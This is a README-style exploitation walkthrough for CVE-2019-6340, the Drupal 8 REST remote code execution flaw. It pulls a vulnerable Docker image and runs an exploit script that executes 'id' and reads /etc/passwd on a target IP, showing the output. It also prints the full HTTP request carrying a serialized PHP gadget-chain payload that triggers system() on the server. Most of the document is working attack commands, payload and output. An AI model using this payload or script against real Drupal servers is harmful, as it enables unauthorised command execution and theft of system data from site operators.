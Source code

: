 # CVE-2019-6340 Drupal8's REST RCE, SA-CORE-2019-003

### 0x01 docker search CVE-2019-6340
```
NAME                     DESCRIPTION                              STARS     OFFICIAL   AUTOMATED
knqyf263/cve-2019-6340   Environment for CVE-2019-6340 (Drupal)   0                    
cved/cve-2019-6340       cve-2019-6340                            0     
```
### 0x02 docker pull knqyf263/cve-2019-6340

```
Using default tag: latest
latest: Pulling from knqyf263/cve-2019-6340
6ae821421a7d: Pull complete 
08f3d19635b0: Pull complete 
dc8a54b8000b: Pull complete 
b2c1d103db99: Pull complete 
edfa752aa38a: Pull complete 
583d37cbf2f0: Pull complete 
c7846a240c1d: Pull complete 
d8f9f0fd02fe: Pull complete 
01d43e56770d: Pull complete 
dbe439e2caf9: Pull complete 
3de30e1f5211: Pull complete 
209dd35ef060: Pull complete 
3d97847926b1: Pull complete 
d0da67360f39: Pull complete 
30efc6ba9a1f: Pull complete 
a7bf83e4c4c3: Pull complete 
f4e7678b40a5: Pull complete 
9c786cb4409c: Pull complete 
e2a8985b3b6b: Pull complete 
e6b727cd2f54: Pull complete 
afc99ae05ad1: Pull complete 
5db8cf1431d4: Pull complete 
7b90e0b5c074: Pull complete 
6f123bc91ad7: Pull complete 
00456a0879a4: Pull complete 
5ee332aeb757: Pull complete 
5a6951f3933f: Pull complete 
6733bf98ddeb: Pull complete 
Digest: sha256:af74572eca0aa665507cb1dd536deb18ec1c17ac3ca5757b9cdf8f7adb174876
Status: Downloaded newer image for knqyf263/cve-2019-6340:latest
```
### 0x03 docker run -d -p80:80 --name jas502n knqyf263/cve-2019-6340

`1ed1e2278904d06f5b8c5d5fda677b393e16414bbf0bd93f5d8f359d76360e49`</br>
![](./Drupal8.jpg)

### 0x04 python CVE-2019-6340.py url cmd
`s:2:\"id\";`
![](./CVE-2019-6340.jpg)

```
python CVE-2019-6340.py http://47.75.157.227  "id"

Description: Drupal8's REST RCE, SA-CORE-2019-003, CVE-2019-6340

Example: python CVE-2019-6340.py url cmd

>>>Vuln Url=http://47.75.157.227/node/

>>>>Exit CVE-2019-6340 RCE Vuln!

uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

```
python CVE-2019-6340.py http://47.75.157.227  "cat /etc/passwd"

Description: Drupal8's REST RCE, SA-CORE-2019-003, CVE-2019-6340

Example: python CVE-2019-6340.py url cmd

>>>Vuln Url=http://47.75.157.227/node/

>>>>Exit CVE-2019-6340 RCE Vuln!

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false

```

##### burpsuite request
![](./CVE-2019-6340-burp.jpg)
```
POST /node/?_format=hal_json HTTP/1.1
Host: 47.75.157.227
User-Agent:  Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Connection:  keep-alive
Content-Type: application/hal+json
Accept:  */*
Cache-Control: no-cache
Content-Length: 626

{
  "link": [
    {
      "value": "link",
      "options": "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\u0000GuzzleHttp\\Psr7\\FnStream\u0000methods\";a:1:{s:5:\"close\";a:2:{i:0;O:23:\"GuzzleHttp\\HandlerStack\":3:{s:32:\"\u0000GuzzleHttp\\HandlerStack\u0000handler\";s:2:\"id\";s:30:\"\u0000GuzzleHttp\\HandlerStack\u0000stack\";a:1:{i:0;a:1:{i:0;s:6:\"system\";}}s:31:\"\u0000GuzzleHttp\\HandlerStack\u0000cached\";b:0;}i:1;s:7:\"resolve\";}}s:9:\"_fn_close\";a:2:{i:0;r:4;i:1;s:7:\"resolve\";}}"
    }
  ],
  "_links": {
    "type": {
      "href": "http://localhost/rest/type/shortcut/default"
    }
  }
}

```
##### burpsuite response
```
HTTP/1.1 403 Forbidden
Date: Mon, 27 May 2019 19:12:21 GMT
Server: Apache/2.4.25 (Debian)
X-Powered-By: PHP/7.2.15
Cache-Control: must-revalidate, no-cache, private
X-UA-Compatible: IE=edge
Content-language: en
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Expires: Sun, 19 Nov 1978 05:00:00 GMT
Vary: 
X-Generator: Drupal 8 (https://www.drupal.org)
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: application/hal+json
Content-Length: 239

{"message":"The shortcut set must be the currently displayed set for the user and the user must have \u0027access shortcuts\u0027 AND \u0027customize shortcut links\u0027 permissions."}uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
### 0x05 参考链接
`https://github.com/knqyf263/CVE-2019-6340` </br>
`https://www.ambionics.io/blog/drupal8-rce` </br>
`https://gist.githubusercontent.com/theMiddleBlue/22c6908d955519bd23b3d0b349badcc5/raw/af5746d4755c9e4cca6d8ef15334f81027c524df/drupal8rce.json`</br>
`https://www.drupal.org/sa-core-2019-003`

